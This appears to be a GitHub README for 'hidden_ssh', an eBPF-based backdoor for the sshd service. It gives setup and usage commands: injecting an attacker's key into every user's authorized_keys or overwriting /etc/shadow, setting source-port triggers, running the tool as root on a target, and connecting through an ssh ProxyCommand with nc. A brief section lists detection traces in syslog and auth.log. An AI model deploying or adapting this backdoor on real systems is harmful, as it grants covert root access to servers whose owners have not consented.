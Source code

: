 # hidden_ssh

`hidden_ssh` will **backdoor the `sshd` service** to allow you to connect to a user without knowing their password. It will either inject a public key into the `~/.ssh/authorized_keys` file or modify `/etc/passwd` & `/etc/shadow` while giving root permissions to every user at backdoor trigger.

## Features

To connect to a backdoored server, you'll need to trigger it by connecting to the ssh server on a **specific source port**. The backdoor will then be activated and you'll be able to connect to the targetted user without knowing their password.

### Public Key

> [!IMPORTANT]
> This will only work if the targetted user has a `~/.ssh/authorized_keys` file and contains a larger key than the one we are injecting.

- [x] Inject a public key into the `authorized_keys` of every user

### Password

- [x] Modify `/etc/shadow` to modify every user's password at trigger time

## Configuring the backdoor

Both public key and password backdoors can be configured in the `hidden_ssh.c` file.

### Public Key

> [!TIP]
> As we are trying to overwrite what's the `sshd` is reading. We cannot send back more characters than it read. So, the smaller the injected key is, the better it will fit in the `authorized_keys` file of targetted users.

You can use the `ED25519` algorithm to generate a smaller key.
```bash
$ ssh-keygen -t ed25519 -f backdoor_key
```

Then take the content of the `.pub` file and paste it in the `hidden_ssh.c` file (in the `backdoor_publickey` variable).

```c
char backdoor_publickey[] = "ssh-..."; // Your public key here
```

### Password

> [!TIP]
> Same as the public key, the smaller the hashed password is, the better it will fit in the `/etc/shadow` file.

We can use the `openssl` command to generate a hashed password.
```bash
# By using a small salt, we can generate a smaller hashed password
$ openssl passwd -6 -salt a <password>
```

Then take the hashed password and paste it in the `hidden_ssh.c` file (in the `backdoor_hashed_passwd` variable).

```c
char backdoor_hashed_passwd[] = "$6$a$..."; // Your hashed password here
```

### Trigger ports

You can also configure the source port that will trigger the backdoor in the `hidden_ssh.c` file. (Don't forget to also edit the client script if you change the source port)

```c
// Lines 188-189
set_port(2345, AUTH_BACKDOOR);   // backdoor auth
set_port(2346, PASSWD_BACKDOOR); // backdoor passwd
```

## Server Installation

Compile the program with the following command:

```bash
$ make
```

After compiling the program, run it as root on the server you want to backdoor:

```bash
$ ./hidden_ssh
```

**At this stage, the server is now backdoored ! 🎉**

> [!IMPORTANT]
> It's necessary for the targetted user to have a `~/.ssh/authorized_keys` file and contain a larger key than the one we are injecting. Otherwise, the injection will fail.

## Client usage

### Using the provided client

An helper script is provided to connect to the backdoored server, you can use it with the following command:

```bash
$ ./client/run.sh user target dst_port <key/passwd>
```

### Using the `ssh` command

Or alternatively you can use the following command to connect to the backdoored server:

```bash
$ ssh -o 'ProxyCommand nc -p 2345 %h %p' user@target -i private_key # 2345 being the source port
```

## Known Issues

- Sometimes it happens that the `sshd` service will ignore reading the newly `/etc/shadow` file. So the backdoor won't work as expected. We can just **re-trigger the backdoor** to make it try to read the file again.

- When using the `nc` command it's possible that when logging out, the backdoor port will be locked for a few moments on your netstack. This is due to the `TIME_WAIT` state of the TCP connection on client end. You can just wait a few moments before re-triggering the backdoor as it's **not affecting the backdoor** itself.

## Detection

- As we are using `bpf_probe_write_user`, a message will be logged in the syslogs:
```bash
[...] hidden_ssh[....] is installing a program with bpf_probe_write_user helper that may corrupt user memory!
```

- When logging in, the `sshd` service will still log the connection in the `auth.log` file. (It's probably possible to also block this log, but it's not implemented yet)

> [!NOTE]
> Btw, i know that for now the code ain't clean 💀. Looking to improve it one day.
